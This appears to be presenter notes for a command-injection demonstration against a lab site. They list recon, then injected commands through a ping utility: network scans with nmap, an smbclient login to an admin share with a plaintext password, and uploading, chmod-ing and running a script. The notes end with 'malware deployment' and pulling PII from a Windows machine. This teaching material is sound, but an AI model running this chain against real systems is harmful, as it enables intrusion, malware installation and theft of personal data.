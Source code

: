 Command Injection Demo:

Academic:
    Dig through DNS\
    Port scan IPs\
    Interrogate IP\
	HTTP Watch/Fiddler/Postman/Wireshark\
	Headers can indicate the stack\
 \
Commands:\
    Login: wier credentials to connect.hackysock.com\
    Browse site… Exploratory work\
    Over to the ping utility\
        note the command injection flaw.\
	    whoami\
	    pwd\
	    cd ../../\
	    ls\
	    ifconfig -a | grep netmask\
	    which nmap\
	    nmap -sP 192.168.122.1/24\
	    namp -p 135 192.168.122.7\
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:\
    Upload file: Note the path description\
	Figure out where uploads go\
	Upload script\
	CHMOD script\
		chmod 775 ../../hackable/uploads/pull_scripts.sh\
	Execute script\
		../../hackable/uploads/pull_scripts.sh\
	Show all the scripts that were pulled down from GitHub\

* It should be apparent at this point that I own the box so…\

Drop to shell to show rest of demo and malware deployment.\
	Execute pii script\
	Show pii data pulled from windows machine\
	

	
